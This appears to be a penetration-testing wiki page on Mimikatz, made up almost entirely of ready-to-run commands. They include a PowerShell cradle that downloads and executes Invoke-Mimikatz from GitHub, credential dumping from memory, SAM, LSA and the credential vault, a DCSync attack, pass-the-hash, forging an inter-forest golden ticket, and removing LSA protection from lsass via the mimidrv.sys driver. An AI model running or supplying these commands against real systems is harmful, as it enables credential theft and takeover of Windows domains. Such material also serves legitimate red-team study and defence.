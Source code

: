 **GitHub:** [https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1)

## Dump Credentials

```bash
# Download and execute in cradle
IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1')
 
 #Dump creds from memory
Invoke-Mimikatz -DumpCreds

# DCSync Attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump local passwords
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

# Dump Credential Vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'

# Dump credentials on remote systems
Invoke-Mimikatz -DumpCreds -ComputerName @("WS01","WS02")
```

## Dump Domain Credentials

```bash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## Spawn PowerShell (with Compromised NTLM hash)

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:DomainAdmin /domain:Security.local /ntlm:b38ff50264b7458734d82c69794a4d8 /run:powershell.exe"'
```

## Forge Inter-domain Trust Ticket

```powershell
# Obtain trust key between current domain and external domain
Invoke-Mimikatz -Command '"lsadump::trust /patch"'

# An inter-forest TGT can be forged
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:Security.local /sid:S-1-5-21-1874506000-3219952063-538504511 /rc4:815720462a1b48256f16740b70356b7f /service:krbtgt /target:Vault.local /ticket:C:\AD\trust_forest_tkt.kirbi"'
```

## Over Pass the Hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:Security.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

## Protection Bypass

The below image represents an attempt to access the lsass.exe process and extract clear text passwords and run a skeleton key attack. As we can see this has not been successful since applying the registry key change mentioned in the mitigation section for LSA Protection.

![](<../../.gitbook/assets/image (1988).png>)

We can check if the LSA Protection RunAsPPL key exists by querying the registry to confirm the LSA protection is in place.

```bash
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "RunAsPPL"
# Value 0x1 means LSA Protection is enabled
```

This can be bypassed by utilizing the `mimidrv.sys` driver file which is included as a separate file with mimikatz.

{% hint style="info" %}

The mimidrv.sys driver file needs to exists in the same directory as mimikatz.exe.

{% endhint %}

The driver can be loaded by running the command `!+` in `Mimikatz`. After doing so the following command can be execute to protect the `mimikatz.exe` process.

```bash
!processProtect /process:mimikatz.exe
```

The same command with the `/remove` flag can be used to strip the process protection from a process such as `lsass.exe`

```bash
!processprotect /process:lsass.exe /remove
```

From here we should be free to perform actions against LSASS and dump credentials from it.

```bash
mimikatz.exe sekurlsa::logonpasswords
```

# Resources

https://www.wwt.com/api-new/attachments/66a7b8da13599902a3aa53a9/file
